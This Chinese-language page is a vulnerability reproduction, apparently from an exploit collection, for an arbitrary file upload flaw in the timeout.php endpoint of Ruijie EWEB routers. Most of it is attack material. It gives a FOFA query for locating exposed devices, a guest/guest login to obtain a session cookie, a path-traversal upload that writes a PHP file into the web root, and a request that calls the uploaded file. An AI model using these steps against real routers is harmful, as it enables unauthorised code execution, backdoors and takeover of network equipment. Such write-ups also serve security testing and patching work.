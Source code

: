 # 锐捷 EWEB路由器 timeout.php任意文件上传漏洞

# 一、漏洞简介
锐捷睿易是锐捷网络面向商务市场的子品牌。拥有便捷的网络、交换机、路由器、无线、安全、云服务六大产品线，解决方案涵盖商业零售、酒店、kt、网吧、监控与安全、物流、仓储、制造。通过该漏洞，攻击者可以任意执行服务器端的代码，编写后门，获得服务器权限，进而控制整个web服务器。

# 二、影响版本
+ 锐捷 EWEB路由器

# 三、资产测绘
+ fofa`title=”锐捷网络-EWEB网管系统"`
+ 特征

![1709883604157-a88eaed0-f449-414c-86ab-4951422896ee.png](./img/jMJPLGwCvErQjGMK/1709883604157-a88eaed0-f449-414c-86ab-4951422896ee-226270.png)

# 四、漏洞复现
获取cookie
```plain
POST /ddi/server/login.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0
Content-Length: 30
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

username=guest&password=guest?
```
上传

```plain
POST /system_pi/timeout.php?a=upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Content-Length: 62
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=dumk6rq561ie9udafp5eod39t7; path=/; HttpOnly; RUIJIEID=dumk6rq561ie9udafp5eod39t7
X-Requested-With: XMLHttpRequest
Connection: keep-alive
 
fileName=../tmp/html/233.php&mes=<?php echo 23149147841;?>
```
访问上传结果

```plain
GET /233.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Connection: keep-alive
Cookie: RUIJIEID=dumk6rq561ie9udafp5eod39t7
Accept-Encoding: gzip, deflate, br
```
